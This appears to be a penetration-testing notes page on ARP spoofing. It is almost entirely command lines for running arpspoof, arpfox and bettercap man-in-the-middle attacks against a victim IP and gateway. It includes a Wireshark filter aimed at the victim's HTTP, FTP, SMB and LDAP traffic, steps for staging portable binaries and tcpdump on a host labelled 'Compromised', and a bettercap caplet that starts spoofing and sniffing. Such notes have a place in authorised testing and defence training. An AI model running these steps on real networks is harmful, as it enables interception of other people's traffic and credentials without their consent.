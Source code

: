 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![arpspoof Output Disassembled](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}
